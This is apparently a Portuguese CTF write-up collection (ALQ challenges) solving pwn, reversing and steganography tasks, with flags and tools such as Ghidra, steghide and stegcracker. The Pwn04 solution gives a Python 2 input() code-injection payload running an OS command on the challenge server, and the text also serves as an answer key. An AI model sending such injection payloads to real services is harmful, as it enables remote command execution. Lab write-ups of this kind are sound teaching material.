```
ALQ{f1l3_d3script0r_654}
```
### Solução detalhada
Ao analisar o código C, podemos observar a presença da função ```scanf``` onde permite o usuário a preencher um campo com algum número inteiro.
```
scanf("%d", &num);
```
Na linha seguinte, o valor da variável ```fd``` será ```num - 0xcafe```, essa variável será usada no primeiro argumento da próxima função, chamada ```read```.

Estrutura da função read:
```
ssize_t read(int fd, void buf[.count], size_t count);
```

A imagem a seguir mostra algumas informações sobre file descriptor:


Com base nessa analise, precisamos fazer com que o valor da variável ```fd``` seja igual a 0, que interpretado pelo binário, será o "Standard Input", conhecido como "stdin".

```
0 = X - 0xcafe
```

Podemos usar a linguagem de programação Python para descobrirmos o número inteiro por trás de ```0xcafe```.
```
$ python3 -c "print(0xcafe)"
51966
```

Agora que temos o número, conseguiremos resolver a simples conta de matemática:
```
0 = X - 0xcafe
0 = X - 51966
0 = 51966 - 51966
```

A próxima linha do código usa a função strcmp para comparar se o usuário preencheu o campo com a palavra "ALQUYMIA".
```
if(!strcmp("ALQUYMIA\n", buf))
```

Agora o que precisamos fazer é se conectar com o servidor e enviar o número para que seja interpretado como file descriptor stdin e enviar a palavra "ALQUYMIA" para retornar a flag:


## Pwn02 (10)
### Descrição
nc 45.63.104.42 3442

### Arquivos anexados
pwn02.c
```
#include <stdio.h>
#include <stdlib.h>

int main()
{
        long int passw;
        long int passw_ = 0x9999dead9999;
        scanf("%ld", &passw);
        if(passw == passw_)
        {
                printf("Parabens, pegue sua flag: ");
                printf("ALQ{?}\n");
        }
        return 0;
}
```

### Flag
```
ALQ{3ntend3ndo_hex4d3cima1s_3}
```
### Solução detalhada
Analisando o código C, percebemos que há uma variável inteiro longo chamado "passw_" com o valor "0x9999dead9999". Na linha seguinte, existe a função "scanf" onde irá armazenar um valor inteiro longo que o usuário enviar. Posteriormente esses dois valores será comparados, e se for iguais, a flag será retornada.

O valor da variável "passw_" lembra um valor hexadecimal, portanto, podemos usar a linguagem de programação Python para decodificar esse valor.

```
python3 -c "print(0x9999dead9999)"
168886144965017
```

Agora precisamos apenas se conectar ao servidor e enviar o valor decodificado.


## Pwn03 (25)
### Descrição
nc 45.63.104.42 7213

### Arquivos anexados
pwn03
### Flag
```
ALQ{b4sic_r3verse_21}
```
### Solução detalhada
Para esse desafio, foi usado a ferramenta de engenharia reversa Ghidra para obter o código da ```int main()``` e foram feitos algumas modificações para obter um melhor entendimento sobre o código do binário:

```

int main(void)

{
  int result;
  size_t tamanhoUserInput;
  char userinput [34];
  char valorParaComparar [13];
  char local_19;
  undefined4 uStack_18;
  undefined3 uStack_14;
  undefined5 uStack_11;
  int i;
  
  local_19 = 'C';
  uStack_18 = 0x5443534e;
  uStack_14 = 0x434a4d;
  uStack_11 = 0x393535334f;
  fgets(userinput,32,stdin);
  tamanhoUserInput = strcspn(userinput,"\n");
  userinput[tamanhoUserInput] = '\0';
  for (i = 0; i < 13; i = i + 1) {
    valorParaComparar[i] = (&local_19)[i] + -2;
  }
  local_19 = '\0';
  result = strcmp(userinput,valorParaComparar);
  if (result == 0) {
    puts("Pegue sua flag: ALQ{?}");
  }
  else {
    puts("Errouuuuuu!!");
  }
  return 0;
}
```

Observando as variáveis, encontrados alguns valores dentro de ```local_19```, ```uStack_18```, ```uStack_14```, e ```uStack_11```. Para decifrar os valores de ```uStack_1*```, usamos a ferramenta CyberChef seguindo a seguinte receita:


Valores:
```
0x5443534e
0x434a4d
0x393535334f
```

Após decodificar e reverter os valores, o resultado foi ```NSCTMJCO3559```, porém precisava adicionar a letra "C" no início do valor, o que resultou em ```CNSCTMJCO3559```.

Analisando o seguinte comportamento do binário, observamos que ele pegava cada letra e número da variável ```local_19``` (que seria ```CNSCTMJCO3559```) e voltava duas casas atrás, ou seja, C = A, N = L, e S = Q.
```
for (i = 0; i < 13; i = i + 1) {
    valorParaComparar[i] = (&local_19)[i] + -2;
}
```

Observando esse comportamento, remodelamos o valor de ```CNSCTMJCO3559``` para ```ALQARKHAM1337```. Com esse valor, conectamos ao servidor e enviamos ele.


## Oculto.exe (50)
### Descrição
Arkham começou novamente suas brincadeiras de esconder as coisas, mas dessa vez ele se superou, conseguiu até esconder algumas funções importantes do C. Será que você será capaz de visualizar a flag escondida?

### Arquivos anexados
oculto.exe
### Flag
```
ALQ{3nxergand0_o_0culto}
```
### Solução detalhada
Para esse desafio, foi usado a ferramenta de engenharia reversa Ghidra para encontrar a função escondida do binário.


Encontramos alguns valores nas variáveis ```uStack_*``` e a seguinte instrução:

```
for (iStack_c = 0; iStack_c < 0x17; iStack_c = iStack_c + 1) {
    acStack_48[iStack_c] = *(char *)((longlong)&uStack_28 + (longlong)iStack_c) + -3;
}
```

Observando a instrução, podemos concluir que é parecida com as instruções do desafio "Pwn03", porém, ao invés de voltar duas casas, ele volta três. A mesma receita usada no desafio anterior é a mesma usada no oculto.exe.


Transformamos isso:
```
0x687b71367e544f44
0x7262336771646a75
0x78663362
0x776f
0x72
0x7d
```

Para isso:
```
DOT~6q{h
ujdqg3br
b3fx
ow
r
}
```

Que por final virou ```DOT~6q{hujdqg3brb3fxowr}```.

Seguindo a regra de voltar três casas e ajustando algumas caracteres, o resultado final foi igual a ```ALQ{3nxergand0_o_0culto}```.

## Pwn04 (50)
### Descrição
nc 45.63.104.42 4553

### Arquivos anexados
programa.py

```
senha = input("")

if senha == numero: # a senha é composta por apenas numeros
    print "Pegue sua flag: ALQ{?}"
else:
    print "Errouuuu!!!!"
```
### Flag
```
ALQ{3val_c0m_python_2}
```
### Solução detalhada
Ao analisar o código Python, a principio não parece ter alguma vulnerabilidade, mas na versão 2 do Python, a função ```input``` era considerada perigosa por ser igualmente a função ```eval```. Por esse motivo muitos códigos Python 2 usavam a função ```raw_input``` ao invés de ```input```.

Pesquisando mais afundo sobre a fraqueza, é possível encontrar payloads que podem ser usados para explorar essa falha. Utilizamos o seguinte payload para detectar:

```
__import__("os").system("whoami")
```

Nos conectamos ao servidor e enviamos.


A flag foi encontrada no caminho ```/srv/pwn05/flag.txt```.


# Stego

## Descoberta Histórica (10)
### Descrição

Desafio no qual o objetivo e descobrir qual tipo de arte é o da foto.

### Flag

ALQ{rupestre}

### Solução detalhada

No enunciado do desafio, vem falando sobre cavernas e descoberta historicas, então basta pesquisar no google, sobre os tipos de cavernas historica/arte.


## Quase Igual (10)
### Descrição
Existe uma diferença clara, mas nem sempre é perceptível.
### Arquivos anexados

* [stego_pinguim.png](files/stego_pinguim.png)
### Flag
```
ALQ{quase_igual}
```
### Solução detalhada
Utilizamos a ferramenta **stegsolve** para encontrar a flag escondida na imagem.


## Vaso de decoração (25)
### Descrição

### Arquivos anexados

### Flag

### Solução detalhada

## Fake Story (50)
### Descrição


### Solução detalhada

É nos dada uma imagem para analisar, primeiramente, rodo o TweakPNG para verificar


Vários erros aparecem, depois de muita busca, concertando o IHDR e tentando concertar os IDAT's na mão, percebi que na verdade era super simples, o problema residia no tamanho da imagem.

Usando o próprio TweakPNG, troque o tamanho da imagem para 1024x1024.


Depois disso, Salve a imagem e a abra denovo,

E olha só, obtemos a imagem original concertada.
Analisando atentamente, aparentemente tem um qrcode escondido na imagem.


Agora com a imagem concertada, usaremos o StegSolve para tentar pegar o qrcode.


Use a setinha no canto inferior, e boom


Flag: https://ALQ{imagem_0cult@}

## Na Deepweb 2 (50)
### Descrição

Esta foi uma challenge bem divertida no qual teriamos que utilizar ferramentas de stego (online também), cripto, bruteforce, converter ascii para texto e etc.

### Flag

ALQ{NaDeEpW33p2}

### Solução detalhada

Essa challenge consistia em;

* Quando você baixa o arquivo rar, ele fez com senha, mas se você notar, o nome dele, os numeros, é um ascii, então decodando isso, vez a key: DECRYPT
* Ao usar a key DECRYPT para unzipar, ele vem com 2 pdf e 2 imagem, o PDF 2, nele tem um qrcode com um X então precisamos remover isso, e as cifras, codigo morse, base64, que estava na imagem era só falso positivo, mas sendo um dando uma hint que existe uma "senha" em uma das imagens.
* Para podermos ver o qrcode e finalmente decodar, poderiamos usar o pdfimages para gravar imagens JPEG como arquivos JPEG, ou usar alternativas de sites online para isso.
* Depois que removemos o X na imagem, e poderiamos jogar em um qrcode decoder online como o "https://zxing.org/w/decode.jspx", podemos ver uma cifra de vigenere, porem como todo mundo sabe, para podermos descriptografar um texto em vigenere, precisamos de uma key,e nós nao temos essa key, então precisariamos encontrar a key na imagem.
* No PDF 1, podemos encontrar a senha, uma trick que eu usei foi usar o control + A, para poder selecionar algum texto na imagem, e funcionou. Outra coisa também que eu testei foi sites online para poder extrair texto de pdf
* Depois de conseguir a key para decriptar o texto em vigenere, ele nós da outra senha.
* Essa senha podemos usar no steghide na imagem 3.jpg.
* Depois de utilizar essa senha na imagem 3 usando steghide, ele dropa um "Alq.txt" e nele tem um base64, se decodarmos ele nos da uma lista de senhas que é para usar essa wordlist e fazer um bruteforce na imagem 4.
* Para isso utilizei o stegcracker na imagem 4 junto com a lista de senha que foi nos dada, e não demorou muito ele descobriu a senha, e depois foi só usar o steghide na imagem 4, que conseguimos nossa flag!!


## Tinta Invisível (50)
### Descrição

Uma challenge bem interessante e muito simples utilizando ferramentas de stego.

### Flag

ALQ{V3lhos_metodos_s4o_os_m3lh0res}

### Solução detalhada

Essa challenge consistia em;

* Primeiro passo eu abri a imagem usando eog, e se deparamos com aquele meme bem famoso, só que, não tinha nada escrito no papel, então precisamos descobrir o que tem escrito nele.
* Depois, eu usei o exiftool e na description encontrei "Blindhide" (guardem essa informação pois vamos usa-la depois), e um texto aonde dizia que o java é horrivel (concordo 100% ahaushuahushuas).
* Utilizando o stegsolve, encontramos outra verdade, dessa vez no papel, dizendo que o java é horrivel hahahaha
* E por fim, existe uma ferramenta chamada "diit" que implementa vários outros algoritmos como BattleSteg , *Blindhide*, HideSeek, FilterFirst, DynamicBattleSteg, DynamicFilterFirst. Então é so baixarmos ele, e usar na imagem.
* Após abrir o diit, precisariamos colocar o path da imagem, selecionar o algoritmo blindhide e colocar um output.
* Após fazer isso, temos a flag!!





## A Animação (100)
### Descrição

### Arquivos anexados

* [animacao.mp4](files/animacao.mp4)
### Flag
```
ALQ{QR_Qu3brad0}
```
### Solução detalhada
Visualizando o vídeo, observamos que alguns fragmentos quadrados tinha uma posição especifica, então tiramos screenshot de todas as vezes que os fragmentos apareciam e removemos o fundo preto.


Posteriormente, juntamos todos os fragmentos em um editor de fotos com a resolução 1024x1024.


Observando os fragmentos juntos, descobrimos que se tratava de um QRCode, então modificamos a cor da imagem para preto e branco e adicionamos as três partes que faltava do QRCode.


Posteriormente decodificamos o QRCode e recebemos a flag.


## O lado oculto da lua (100)
### Cernan: Whooooooooooooo. Young: Você também ouviu aquele som de assobio? Cernan: Sim. Soa como – você sabe, música do tipo espaço sideral. Young: Eu me pergunto o que é.

### Transcrição da NASA

### ALQ{stegonaut@}

### Solução detalhada

Essa challenge consistia em procurar no google sobre o lado oculto da lua (missão), e descobrir em qual apollo ela fez parte que é a apollo10, que seria a key.

Existe um site online de stego em audio chamado "stegonaut", e nela podemos colocar a key e extrair a flag.


## Arte (150)
### Descrição
Lá Arte, La vision, Lá Cubiqué!
### Arquivos anexados

* [arte.svg](files/arte.svg)


### Flag
```
ALQ{seq_cor}
```
### Solução detalhada
Usamos o site [Boxy SVG](https://boxy-svg.com/) para analisar o arquivo e conseguir modificar os elementos da imagem.

Descobrimos que havia um quadrado vermelho debaixo dos quadrados maiores.


Começamos a remover todos esses quadrados que haviam na imagem. O resultado foi esse:


Observando o resultado, os jogadores disseram que parecia com um caminho quebrado, outros diziam que lembrava um caça-palavras.

Durante a busca por writeups parecidos com o que nós estávamos enfrentando, vimos um writeup que chamou nossa atenção, onde uma **senha** estava **escondida entre as cores em hex**:


[link do writeup](https://medium.com/@FourOctets/ctf-tidbits-part-1-steganography-ea76cc526b40)

Observamos as cores são meias cinzentas, e as cores dos quadrados do SVG também eram cinzentas.

Com essa visão, juntamos nossas hipóteses de cores cinzentas, caça-palavras, e caminhos quebrados, para seguir um caminho das cores, copiar seu valor hex, e decodificar.


Recebemos esse valor desconhecido, então usamos a receita "Magic" para identificar do que se tratava.


Ela retornou 2 possíveis codificações, Base64 e Base85, começamos com Base64 e observamos que algumas letras estavam aparecendo.


Começamos a testar mais caminhos para termos certeza de que estávamos certos.


Havíamos descoberto uma mensagem entre as cores seguida por uma caminho. Iniciamos a busca pela flag, e encontramos ela nesse caminho:


